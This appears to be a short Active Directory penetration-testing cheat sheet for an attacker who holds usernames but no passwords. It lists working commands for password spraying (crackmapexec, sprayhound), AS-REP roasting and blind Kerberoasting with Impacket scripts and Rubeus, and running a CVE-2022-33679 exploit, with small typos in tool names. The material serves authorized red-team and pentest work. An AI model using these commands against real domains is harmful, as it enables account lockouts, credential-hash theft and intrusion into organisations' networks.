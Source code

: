 ### Username - no password

🔥Password spray
Get password policy (need creds, but you should get the policy before starting a spray)
	cme <IP> -u 'user' -p 'password' --pass-pol
	enum4linx -u 'username' -p 'password' -P <IP>
	Get-ADDefaultDomainPasswordPolicy
	FGPP
		 Get-ADFineGrainedPasswordPolicy -filter *
		Get-ADUserResultantPasswordPolicy -Identity <user>
		ldapsearch-ad.py --server '<dc>' -d <domain> -u <user> -p <pass> --type pass-pols
cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # test user=password
cme smb <dc-ip> -u user.txt -p password.txt # multiple test (carrefull of lock policy)
sprayhound -U <users.txt> -d <domain> -dc <dcip>

	
	
ASREPRoast
Get ASREPRoastable users (need creds)
	Get-DomainUser -PreauthNotRequired -Properties SamAccountName
	MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
Get hash
	python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>
	Rubeus.exe asreproast /format:hashcat
Blind Kerberoasting
	Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>
	GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/
	Hash found (TGS)
CVE-2022-33679
	python3 CVE-2022-33679.py <domain>/<user> <target>

